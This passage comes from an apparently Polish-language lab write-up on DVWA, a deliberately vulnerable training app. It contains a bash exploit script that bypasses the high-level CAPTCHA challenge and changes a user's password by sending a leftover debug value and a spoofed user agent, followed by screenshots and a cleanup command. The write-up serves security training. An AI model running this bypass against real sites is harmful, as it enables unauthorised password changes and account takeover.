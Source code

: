 ```bash
exploit() {
  response=$(curl -s -x "http://127.0.0.1:8080" -b dvwa.cookie -X POST -d "step=1&password_new=$2&password_conf=$2&g-recaptcha-response=hidd3n_valu3&Change=Change" -A 'reCAPTCHA' "$1/vulnerabilities/captcha/" | awk -v RS="<pre>" 'NR > 1 {gsub(/<\/pre>.*/, ""); print}')
  [[ ! -z "$response" ]] && echo "Password changed to: $2" && exit 1
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"
exploit "$1" "$2"
echo "Something went wrong and the password was not changed. Check with proxy"
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/captcha_high.gif "Po uruchomieniu skrypt wykonuje żądanie zmiany hasła, wykorzystując wartości parametrów służące do debugowania, a pozostawione przez dewelopera na produkcji w formie komentarza")
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_164751123.png "Wykonane przez skrypt żądanie zmiany hasła")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


<br/>
